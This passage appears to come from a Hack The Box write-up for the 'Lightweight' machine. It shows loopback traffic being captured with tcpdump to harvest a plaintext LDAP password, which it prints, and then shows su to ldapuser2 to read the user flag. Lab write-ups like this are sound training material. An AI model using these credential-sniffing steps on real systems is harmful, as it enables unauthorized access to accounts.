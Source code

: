 ### Capturing traffic

There is an automated script on the box that connects locally to the LDAP server via the loopback interface. Because it's not using LDAPS, the credentials are in plaintext and I can capture them by sniffing the loopback interface.


```
[10.10.14.23@lightweight ~]$ tcpdump -nni lo -w /tmp/capture.pcap
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
```

After grabbing the .pcap file via scp, we can see the following LDAP query using simple authentication with user `ldapuser2`

![](/assets/images/htb-writeup-lightweight/ldap1.png)

And we've got the password is plaintext here:

![](/assets/images/htb-writeup-lightweight/ldap2.png)

`ldapuser2` password is: `8bc8251332abe1d7f105d3e53ad39ac2`

### Logging in as ldapuser2 and grabbing the user flag

For some reason we can't SSH in as `ldapuser2` but we're able to `su` to `ldapuser2`.

```
[10.10.14.23@lightweight ~]$ su -l ldapuser2
Password: 
Last login: Mon Dec 10 21:41:37 GMT 2018 on pts/1
Last failed login: Tue Dec 11 04:35:22 GMT 2018 from 10.10.14.23 on ssh:notty
There was 1 failed login attempt since the last successful login.
[ldapuser2@lightweight ~]$ ls
backup.7z  OpenLDAP-Admin-Guide.pdf  OpenLdap.pdf  user.txt

[ldapuser2@lightweight ~]$ cat user.txt
8a866d...
```

